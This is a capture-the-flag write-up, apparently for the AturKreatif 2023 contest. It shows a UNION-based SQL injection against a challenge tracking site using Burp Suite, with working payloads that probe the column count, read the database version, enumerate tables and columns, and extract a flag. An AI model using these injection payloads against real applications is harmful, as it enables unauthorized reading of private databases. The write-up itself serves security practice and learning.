 VULNERABILITY :- SQL-INJECTION (SQLi) USING UNION

The system displayed the tracking website that has the illegal package's tracking number

![image](https://github.com/aminnazri00/AturKreatif-2023/assets/86725014/8d9231bf-6516-46e1-8425-60d4058326ef)

1. Can track normal traking number by entering 100920001 or 100920002 or 100920003. It will display the normal package status and other details.
2. Insert any one of the SQL syntax in the box such as ' OR 1 -- - or others but the website will filter because only accept numbers only.
3. Open burp suite and intercept the search box in the website.

![image](https://github.com/aminnazri00/AturKreatif-2023/assets/86725014/d9441653-048b-4543-a6c3-4f1a813dae6a)

4. Send the request to repeater
5. Enter the id with SQL syntax below

(Note: For the first time only insert one null because want to try and error till get 6 columns that needed)
    
```
-1' UNION SELECT null,null,null,null,null,null-- 
```

6. It will show result with no data.
7. Insert @@version on one of the null will give the current version of the database.

```
-1' UNION SELECT null,null,null,null,null,@@version-- 
```

8. After get the version and what type of the database, we can figure out how their syntax to enter. Find out how to list all the databases and enter next command:

```
-1' UNION SELECT null,null,null,null,null,TABLE_NAME FROM information_schema.tables-- 
```

9. It will list out all tables that available and found w0wg00d that look suspicious.
10. After that need to list out all the columns that available by entering the command below:

```
-1' UNION SELECT null,null,null,null,null,COLUMN_NAME FROM information_schema.columns-- 
```
11. It will list out all columns that available and column f0undM3 that look suspicious.
12. From both information we get, we can retrieve all data from other table by entering command below and found the flag

```
-1' UNION SELECT null,null,null,null,null,f0undM3 FROM w0wg00d-- 
```
